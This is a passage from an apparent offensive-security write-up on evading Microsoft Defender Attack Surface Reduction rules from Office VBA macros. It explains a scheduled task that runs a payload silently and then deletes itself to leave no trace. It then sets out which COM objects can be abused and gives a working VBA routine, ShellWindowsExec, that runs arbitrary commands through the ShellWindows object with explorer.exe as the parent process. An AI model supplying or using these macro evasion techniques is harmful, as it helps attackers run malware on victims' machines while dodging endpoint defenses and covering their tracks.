 - `"System Timer T"` = the task name.
- `6` = `TASK_CREATE_OR_UPDATE + TASK_RUN` → Creates and runs immediately.
- `, , 3` = `TASK_LOGON_INTERACTIVE_TOKEN` → Runs under the current user context.

This combo **executes the payload silently**, without showing a task scheduler window or triggering ASR rules.

```
Application.Wait (Now + TimeValue("0:00:01"))
```

Waits **1 second** for the task to launch before cleaning up.

```
Call rootFolder.DeleteTask("System Timer T", 0)
```

Deletes the task — **leaves no persistent trace** of the payload being executed.

This method allows to execute any commands with all ASR rules enabled.

* * *

#### COM objects

In order to bypass ASR a COM object must:

- Have an interesting method such as CreateObject or ShellExecute which allow to execute a command.
- Be loaded via another executable (LocalServer32 registry key must be set set). COM object loaded via DLL (InProcServer32 is set) will generate a subprocess in the Office application which loads the DLL, so they will be blocked by ASR.

ShellWindows has both properties. “**Represents a collection of the open windows that belong to the Shell. Methods associated with this objects can control and execute commands within the Shell, and obtain other Shell-related objects**.”

#### `ShellWindowsExec` (Using `ShellWindows` CLSID)

- **Uses** `GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")`  
  → This CLSID corresponds to `ShellWindows`, which **manages open Explorer windows**.
- Calls `.Item().Document.Application.ShellExecute` to **execute the command**.
- Since `explorer.exe` is the parent process, it **bypasses ASR**.

```
Sub ShellWindowsExec(targetPath As String)
    Dim targetArguments As Variant
    Dim targetFile As String
    Dim ShellWindows As Object
    Dim itemObj As Object
    ' Extract filename and arguments
    targetFile = Split(targetPath, " ")(0)
    targetArguments = GetArguments(targetPath)
    ' Get ShellWindows object
    Set ShellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    Set itemObj = ShellWindows.Item()
    ' Execute command
    itemObj.Document.Application.ShellExecute targetFile, targetArguments, "", "open", 1
End Sub
```
